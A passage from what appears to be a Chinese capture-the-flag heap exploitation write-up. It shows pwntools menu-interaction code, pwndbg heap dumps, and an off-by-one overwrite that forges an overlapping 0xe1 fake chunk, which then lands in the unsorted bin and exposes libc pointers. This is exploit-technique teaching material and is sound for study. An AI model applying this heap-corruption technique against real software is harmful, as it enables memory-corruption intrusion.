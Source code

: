 ```text
        r.recvuntil("choice: ")
        r.sendline("4")
        r.sendlineafter("idx?",str(idx))
```

如思路概述所讲到我们需要创建4个堆

我们创建好的堆结构如下

  

![](https://pic2.zhimg.com/80/v2-1d8825371dc3a86104fe8aae5fd2aea1_720w.webp)

  

在gdb中正常的堆结构如下

```text
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x556b208da000
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x556b208da020
Size: 0x71

Allocated chunk | PREV_INUSE
Addr: 0x556b208da090
Size: 0x71

Allocated chunk | PREV_INUSE
Addr: 0x556b208da100
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x556b208da120
Size: 0x20ee1
```

接下来我们开始利用off by one去对其创建fake chunk

```text
add(0x18,b'a')#0
add(0x68,b'a')#1
add(0x68,b'a')#2
add(0x18,b'a')#3 阻断top chunk

edit(0,b'a'*0x18+b'\xe1')
#e1=70+70+1
free(1)
gdb.attach(r)
```

gdb中调试结果如下，我们很明显的可以看见**两个0x71的堆块合并**成了我们想要的0xe1的堆块，此时我们的fake chunk就构建完毕了

```text
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x5650f994f000
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x5650f994f020
Size: 0xe1
fd: 0x7fc2f9aebb78
bk: 0x7fc2f9aebb78

Allocated chunk
```